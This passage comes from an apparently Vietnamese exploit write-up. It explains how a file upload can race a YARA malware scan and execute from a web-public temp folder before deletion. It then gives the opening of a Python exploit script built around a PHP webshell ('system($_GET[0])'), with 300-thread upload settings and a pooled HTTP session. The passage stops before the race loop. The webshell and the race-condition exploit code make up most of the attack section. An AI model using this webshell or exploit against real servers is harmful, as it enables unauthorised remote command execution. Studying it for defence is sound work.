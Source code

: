 Vì file đã nằm trong web-public, Apache có thể thực thi file đó (ví dụ http://host/tmp/1234.php) trước khi YARA kịp quét và xóa nó. Nếu YARA chấp nhận file (không phát hiện rule), hệ thống sẽ đổi tên / di chuyển file tạm sang thư mục đích, ví dụ /public/uploads hoặc /var/www/html/uploads, làm cho webshell ghi thành công <br>
## Khai Thác
Và nói như cách trên mình sẽ viết tập lệnh python để race condition upload webshell lên trước khi yara quét và xóa nó: <br>
```python
from dataclasses import dataclass
from typing import Optional, Tuple, List, Dict
import requests
import argparse
import base64
import random
import sys
import threading
import time
import logging
from concurrent.futures import ThreadPoolExecutor, as_completed
from urllib.parse import quote
from functools import partial

WEB_SHELL = "<?php system($_GET[0]); ?>"

logger = logging.getLogger("ExploitRunner")
logging.basicConfig(level=logging.INFO, format="[%(levelname)s] %(message)s")

@dataclass
class Config:
    base: str
    upload: str = "/upload.php"
    tmp: str = "/tmp"
    cmd: str = "id"
    threads: int = 300
    upload_interval: float = 0.0
    field_name: str = "file"
    persist: bool = False
    timeout: float = 0.8
    php: str = WEB_SHELL
    pool_size: int = 1000
    show_response: bool = True 


class Exploit:
    def __init__(self, config: Config):
        self.config = config
        self.stop_evt = threading.Event()
        self.session = self._make_session(pool_size=config.pool_size, timeout=config.timeout)
        self.upload_thread: Optional[threading.Thread] = None
        self.base = config.base.rstrip("/")
        self.upload_url = f"{self.base}{config.upload}"
        self.tmp_path = config.tmp if config.tmp.startswith("/") else "/" + config.tmp

    def _make_session(self, pool_size: int = 1000, timeout: float = 1.0) -> requests.Session:
        s = requests.Session()
        adapter = requests.adapters.HTTPAdapter(
            pool_connections=pool_size, pool_maxsize=pool_size, max_retries=0
        )
        s.mount("http://", adapter)
        s.mount("https://", adapter)
        s.headers.update({"User-Agent": "yara-race-exploit/1.0"})
        s.request = partial(s.request, timeout=timeout)
        return s
```